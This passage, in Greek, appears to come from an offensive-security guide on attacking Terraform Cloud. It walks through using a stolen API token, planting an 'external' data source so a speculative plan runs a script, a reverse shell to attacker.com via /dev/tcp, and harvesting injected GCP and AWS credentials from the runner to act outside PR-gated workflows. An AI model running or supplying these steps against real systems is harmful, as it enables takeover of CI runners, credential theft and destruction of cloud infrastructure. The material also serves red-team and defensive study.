 - Ανακαλύψτε τις ρυθμίσεις εργαστηρίου και VCS μέσω του API του TFC:
```bash
export TF_TOKEN=<stolen_token>
curl -s -H "Authorization: Bearer $TF_TOKEN" \
https://app.terraform.io/api/v2/organizations/<org>/workspaces/<workspace> | jq
```
- Ενεργοποιήστε την εκτέλεση κώδικα κατά τη διάρκεια ενός υποθετικού σχεδίου χρησιμοποιώντας την εξωτερική πηγή δεδομένων και το "cloud" block του Terraform Cloud για να στοχεύσετε τον χώρο εργασίας που υποστηρίζεται από VCS:
```hcl
terraform {
cloud {
organization = "acmecorp"
workspaces { name = "gcp-infra-prod" }
}
}

data "external" "exec" {
program = ["bash", "./rsync.sh"]
}
```
Παράδειγμα rsync.sh για να αποκτήσετε ένα αντίστροφο shell στον TFC runner:
```bash
#!/usr/bin/env bash
bash -c 'exec bash -i >& /dev/tcp/attacker.com/19863 0>&1'
```
Εκτελέστε ένα υποθετικό σχέδιο για να εκτελέσετε το πρόγραμμα στον προσωρινό εκτελεστή:
```bash
terraform init
terraform plan
```
- Καταγράψτε και εξάγετε τα εισαγόμενα διαπιστευτήρια cloud από τον runner. Κατά τη διάρκεια των εκτελέσεων, το TFC εισάγει διαπιστευτήρια παρόχου μέσω αρχείων και μεταβλητών περιβάλλοντος:
```bash
env | grep -i gcp || true
env | grep -i aws || true
```
Αναμενόμενα αρχεία στον κατάλογο εργασίας του runner:
- GCP:
- `tfc-google-application-credentials` (JSON ρύθμιση παραμέτρων Ομοσπονδίας Ταυτότητας Φορτίου)
- `tfc-gcp-token` (βραχυχρόνιο διακριτικό πρόσβασης GCP)
- AWS:
- `tfc-aws-shared-config` (ρύθμιση παραμέτρων υποθέσεων ρόλου διαδικτυακής ταυτότητας/OIDC)
- `tfc-aws-token` (βραχυχρόνιο διακριτικό; ορισμένοι οργανισμοί μπορεί να χρησιμοποιούν στατικά κλειδιά)

- Χρησιμοποιήστε τα βραχυχρόνια διαπιστευτήρια εκτός ζώνης για να παρακάμψετε τις πύλες VCS:

GCP (gcloud):
```bash
export GOOGLE_APPLICATION_CREDENTIALS=./tfc-google-application-credentials
gcloud auth login --cred-file="$GOOGLE_APPLICATION_CREDENTIALS"
gcloud config set project <PROJECT_ID>
```
AWS (AWS CLI):
```bash
export AWS_CONFIG_FILE=./tfc-aws-shared-config
export AWS_PROFILE=default
aws sts get-caller-identity
```
Με αυτά τα διαπιστευτήρια, οι επιτιθέμενοι μπορούν να δημιουργήσουν/τροποποιήσουν/καταστρέψουν πόρους απευθείας χρησιμοποιώντας εγγενή CLIs, παρακάμπτοντας τις ροές εργασίας που βασίζονται σε PR που μπλοκάρουν το `apply` μέσω VCS.
